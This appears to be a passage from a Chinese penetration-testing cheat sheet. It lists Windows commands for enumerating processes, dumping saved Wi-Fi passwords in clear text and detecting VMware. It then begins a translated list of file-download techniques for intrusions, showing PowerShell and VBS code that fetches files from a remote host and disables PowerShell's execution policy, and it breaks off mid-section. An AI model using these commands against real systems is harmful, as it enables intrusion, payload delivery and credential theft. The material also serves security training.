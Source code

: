 	C:\> wmic product get name,version
查看某个进程的详细信息 （路径，命令行参数等）

	C:\> wmic process where name="chrome.exe" list full
终止一个进程

	C:\> wmic process where name="xshell.exe" call terminate
	C:\> ntsd -c q -p 进程的PID
显示系统中的曾经连接过的无线密码

	C:\> netsh wlan show profiles 
	C:\> netsh wlan show profiles name="profiles的名字" key=clear
查看当前系统是否是VMWARE

	C:\> wmic bios list full | find /i "vmware"

## 下载文件的15种方法
from:https://www.netspi.com/blog/entryid/231/15-ways-to-download-a-file

在我们的入侵过程中，通常会需要向目标主机传送一些文件，来达到提权，维持控制等目的。这篇blog列举了15种下载文件的方法。

当然还有许多其它的办法来上传文件，下面的列表是15个我比较喜欢使用的技巧。

**PowerShell File Download**

PowerShell 是一种winodws原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

在windows 2003之中默认支持这种脚本。

下面这两条指令实现了从Internet网络下载一个文件。

	$p = New-Object System.Net.WebClient
	$p.DownloadFile("http://domain/file" "C:\%homepath%\file")
下面这条指令是执行一个文件

	PS C:\> .\test.ps1
有的时候PowerShell的执行权限会被关闭，需要使用如下的语句打开。

	C:\>powershell set-executionpolicy unrestricted
**Visual Basic File Download**

在1998年Visual Basic最终标准在windows上确定。下面的代码可以实现下载文件，虽然它的长度比Powershell长多了。

	Set args = Wscript.Arguments
	Url = "http://domain/file"
	dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
	dim bStrm: Set bStrm = createobject("Adodb.Stream")
	xHttp.Open "GET", Url, False
	xHttp.Send
	with bStrm
	    .type = 1 '
	    .open
	    .write xHttp.responseBody
	    .savetofile " C:\%homepath%\file", 2 '
	end with
在windows中Cscript指令可以允许你执行VBS脚本文件或者对script脚本做一些设置。在windows 7中这个指令并不是必须要用到。 但是在windows XP中需要使用这条指令，如下所示。
